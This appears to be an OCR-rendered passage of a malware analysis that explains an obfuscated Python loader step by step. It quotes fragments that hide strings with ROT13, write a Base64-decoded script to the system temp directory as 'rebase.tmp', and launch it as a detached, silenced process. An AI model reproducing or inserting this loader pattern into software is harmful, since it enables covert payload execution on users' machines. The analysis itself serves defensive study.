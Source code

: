 ```
  request_query.close()
  try:
      if ct_type == codecs.decode("Jvaqbjf", stream_method):
          subprocess.Popen(header_ops, creationflags=subprocess.DETACHED_PROCESS)
      else:
          subprocess.Popen(header_ops, shell=True, preexec_fn=os.setpgrp)
  except:
      pass
cert_acc()
```

```
ct_type = platform.system()
```

This variable retrieves the current operating system type (e.g., Windows, Linux, Darwin for macOS) using the `platform.system()` function. The value is stored in the `ct_type` variable.

```
l_p = tempfile.gettempdir()
```

This variable calls the `tempfile.gettempdir() function`, which returns the path to the system's temporary directory. This directory is commonly used for storing temporary files that the system or programs create and then delete upon reboot. The value is assigned to `l_p`.

The `if-else` block takes advantage of the codecs library decode function using ROT13 to decode the string `Jvaqbjf`, which translates to `Windows`. This checks if the system type is Windows. If the system is Windows, the code appends a ROT13-decoded string (which turns out to be `\eronfr.gzc`, `\rebase.tmp` after decoding) to the temporary directory path `l_p`. It then constructs a command `header_ops`, which likely combines the decoded `push_opr` variable (also using ROT13) with the path.

If the system is not Windows, it appends a Unix-like file path `/eronfr.gzc` (`/rebase.tmp` after decoding) and similarly constructs a command using `push_ops`. This part of the code is designed to run different payloads or commands depending on the operating system.

```
if ct_type == codecs.decode("Jvaqbjf", stream_method):
      l_p = l_p + codecs.decode('\\eronfr.gzc', stream_method)
      header_ops = codecs.decode(push_opr, stream_method) + l_p
  else:
      l_p = l_p + codecs.decode('/eronfr.gzc', stream_method)
      header_ops = codecs.decode(push_ops, stream_method) + l_p
```

The next several statements, starting with `request_`, serve to write the Base64-encoded Python script we have already analyzed to` disk in the temporary directory. This code opens a new file in the temporary directory (`l_p`), which was previously set depending on the system type. The variable `req_self` (also a Base64-encoded string) is decoded into its original form. The decoded content is written into the file, and the file is closed.

```
request_query = open(l_p, 'w')
  request_object = base64.b64decode(req_self)
  request_query.write(request_object.decode('utf-8'))
  request_query.close()
```
